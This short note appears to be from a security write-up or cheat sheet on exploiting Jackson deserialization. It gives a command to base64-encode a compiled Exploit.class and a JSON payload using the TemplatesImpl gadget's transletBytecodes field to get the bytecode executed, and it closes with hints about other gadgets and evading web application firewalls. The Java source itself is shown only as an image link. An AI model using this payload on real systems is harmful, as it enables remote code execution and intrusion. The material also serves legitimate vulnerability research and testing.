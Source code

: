 Once you compile the Exploit.java, => Exploit.class

`cat Exploit.class | base64 -w 0 > bytecode.b64`


You want to insert it into the JSON you want jackson to eat.

```
{'id': 124,
  'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
  {
    'transletBytecodes' : [ 'AAIAZQ==' ], , // <=== INSERT YOUR BYTECODE THERE
    'transletName' : 'a.b',
    'outputProperties' : { }
  }
  ]
}
```

Alternate endings. I think this is an old pattern, explore other things that can execute the byte code.
WAF Obfuscation etc...


